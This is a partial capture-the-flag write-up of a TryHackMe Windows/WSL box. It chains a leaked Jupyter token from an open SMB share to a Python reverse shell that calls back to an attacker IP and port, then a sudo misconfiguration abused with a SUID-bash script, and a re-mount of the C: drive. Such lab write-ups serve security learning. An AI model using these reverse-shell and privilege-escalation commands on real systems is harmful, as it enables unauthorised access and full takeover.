



<div class="callout callout-warning">

**🚧 Work in Progress**: This writeup is marked **partial** in my notes: the attack chain below may stop short of a full root/completion.

</div>

<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (+ WSL), **Difficulty:** Hard, **IP:** 10.10.203.45 (`DEV-DATASCI-JUP`)

</div>

<div class="callout callout-warning">

**Partial**

Notes reach the WSL `C:` re-mount; the final Windows privesc to the root flag isn't recorded.

</div>

<div class="callout callout-abstract">

**Attack Path**

1. SMB null session → `datasci-team` share → `jupyter-token.txt`.
2. Use the token to auth to **Jupyter** on `:8888`; edit `weasel.ipynb` (or make a new notebook) with a Python reverse shell → shell as `dev-datasci` **inside WSL**.
3. `dev-datasci` may `sudo` a **non-existent, self-owned** `~/.local/bin/jupyter` → create it as a SUID-bash script → root **in WSL**.
4. Re-mount the Windows drive (`mount -t drvfs C: /mnt/c`) and pivot to the Windows host (SSH host key / SAM / stored creds) for the real flags.

</div>

---

## Full Walkthrough

### Nmap scan

```bash
Nmap scan report for DEV-DATASCI-JUP.local (10.10.203.45)
Host is up, received user-set (0.085s latency).
Scanned at 2025-05-22 21:58:44 EDT for 20s
Not shown: 967 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp   open     msrpc          syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn    syn-ack     Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?  syn-ack
545/tcp   filtered ekshell        no-response
1034/tcp  filtered zincite-a      no-response
1039/tcp  filtered sbl            no-response
1056/tcp  filtered vfo            no-response
1104/tcp  filtered xrl            no-response
1213/tcp  filtered mpc-lifenet    no-response
1247/tcp  filtered visionpyramid  no-response
1272/tcp  filtered cspmlockmgr    no-response
1501/tcp  filtered sas-3          no-response
1999/tcp  filtered tcp-id-port    no-response
2020/tcp  filtered xinupageserver no-response
2045/tcp  filtered cdfunc         no-response
2135/tcp  filtered gris           no-response
2608/tcp  filtered wag-service    no-response
2638/tcp  filtered sybase         no-response
3389/tcp  open     ms-wbt-server  syn-ack     Microsoft Terminal Services
4443/tcp  filtered pharos         no-response
4662/tcp  filtered edonkey        no-response
6789/tcp  filtered ibm-db2-admin  no-response
8701/tcp  filtered unknown        no-response
8888/tcp  open     http           syn-ack     Tornado httpd 6.0.3
| http-headers: 
|   Server: TornadoServer/6.0.3
|   Content-Type: text/html; charset=UTF-8
|   Date: Fri, 23 May 2025 01:59:03 GMT
|   X-Content-Type-Options: nosniff
|   Content-Security-Policy: frame-ancestors 'self'; report-uri /api/security/csp-report
|   Etag: "e3c7a16535a87d88484da907adc8e0aeca730b16"
|   Content-Length: 9113
|   Set-Cookie: _xsrf=2|7998e5d0|375a83ed57c28f3a34e9d166b82699ec|1747965543; Path=/
|   Connection: close
|   
|_  (Request type: GET)
|_http-server-header: TornadoServer/6.0.3
9010/tcp  filtered sdr            no-response
9101/tcp  filtered jetdirect      no-response
10010/tcp filtered rxapi          no-response
19842/tcp filtered unknown        no-response
27352/tcp filtered unknown        no-response
31337/tcp filtered Elite          no-response
57797/tcp filtered unknown        no-response
62078/tcp filtered iphone-sync    no-response
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
└─[$] smbclient -L //10.10.203.45/                                                                                 [21:32:54]
Password for [WORKGROUP\anarchy]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	datasci-team    Disk      
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.203.45 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

From here I took a look into the `datasci-team` share and found an interesting file called `jupyter-token.txt` which contains a token we can use to set a new password for the instance running on port `8888`. From there I started to edit the `weasel.ipynb` file to put in a reverse shell to gain access to the machine once ran.




Decoded to make a new notebook and execute the code below.



#### Python reverse shell

```python
import socket,os,pty;s=socket.socket();s.connect(("10.21.23.235", 9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

### Privesc to `root`

once I was on the system I ran the usual `sudo -l` to see if I can run anything as sudo without a password and I found a few things.

```bash
(remote) dev-datasci@DEV-DATASCI-JUP:/home/dev-datasci$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
```

the second one makes no sense why run something as a user I am already under as sudo? but then I found that  `/home/dev-datasci/.local/bin/jupyter` is owned by me and in the first place does not exist so I created the following script in that file to get root.

```bash
#!/bin/bash

cp /bin/bash /tmp/bash
chmod u+s /tmp/bash
```



....i do not think we are done yet... no flag in `/root`... I do not see a docker file in the system root directory so we cant be in a container...can't we? I just remembered all of those services are running on windows not linux which means that there must possibly be some windows mount somewhere that we can access. I did find a c mount in `/mnt/c` but nothing was in there going to run `linpeas` to hopefully find it and mount it.

### Interesting findings with `linpeas`

```bash
╔══════════╣ Searching kerberos conf files and tickets
╚ http://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory
kadmin was found on /home/dev-datasci/anaconda3/bin/kadmin
kadmin was found on /home/dev-datasci/anaconda3/bin/kinit
klist execution
klist: No credentials cache found (filename: /tmp/krb5cc_1000)
ptrace protection is enabled (1), you need to disable it to search for tickets inside processes memory
-rw-rw-r-- 2 dev-datasci dev-datasci 369 Dec 16  2019 /home/dev-datasci/anaconda3/pkgs/krb5-1.17.1-h173b8e3_0/share/examples/krb5/krb5.conf
[libdefaults]
	default_realm = ATHENA.MIT.EDU

[realms]
# use "kdc = ..." if realm admins haven't put SRV records into DNS
	ATHENA.MIT.EDU = {
		admin_server = kerberos.mit.edu
	}
	ANDREW.CMU.EDU = {
		admin_server = kdc-01.andrew.cmu.edu
	}

[domain_realm]
	mit.edu = ATHENA.MIT.EDU
	csail.mit.edu = CSAIL.MIT.EDU
	.ucsc.edu = CATS.UCSC.EDU

[logging]
#	kdc = CONSOLE
-rw-rw-r-- 2 dev-datasci dev-datasci 369 Dec 16  2019 /home/dev-datasci/anaconda3/share/examples/krb5/krb5.conf
[libdefaults]
	default_realm = ATHENA.MIT.EDU

[realms]
# use "kdc = ..." if realm admins haven't put SRV records into DNS
	ATHENA.MIT.EDU = {
		admin_server = kerberos.mit.edu
	}
	ANDREW.CMU.EDU = {
		admin_server = kdc-01.andrew.cmu.edu
	}

[domain_realm]
	mit.edu = ATHENA.MIT.EDU
	csail.mit.edu = CSAIL.MIT.EDU
	.ucsc.edu = CATS.UCSC.EDU

[logging]
#	kdc = CONSOLE
tickets kerberos Not Found
klist Not Found


```

### Final privesc

```bash
# This file is automatically generated by WSL based on the Windows hosts file:
# %WINDIR%\System32\drivers\etc\hosts. Modifications to this file will be overwritten.
127.0.0.1	localhost
127.0.1.1	DEV-DATASCI-JUP.localdomain	DEV-DATASCI-JUP

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
```

turns out we are in a wsl container which assuming that `/mnt/c` used to have the `c` drive mounted we can mount it back on.

```bash
(remote) root@DEV-DATASCI-JUP:/mnt# mkdir -p baphomet
(remote) root@DEV-DATASCI-JUP:/mnt# sudo mount -t drvfs C: /mnt/baphomet/
(remote) root@DEV-DATASCI-JUP:/mnt# cd baphomet/
(remote) root@DEV-DATASCI-JUP:/mnt/baphomet# ls
ls: cannot read symbolic link 'Documents and Settings': Permission denied
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'             PerfLogs        'Program Files (x86)'   Recovery                     Users     datasci-team
'Documents and Settings'  'Program Files'   ProgramData           'System Volume Information'   Windows   pagefile.sys
(remote) root@DEV-DATASCI-JUP:/mnt/baphomet# 
```
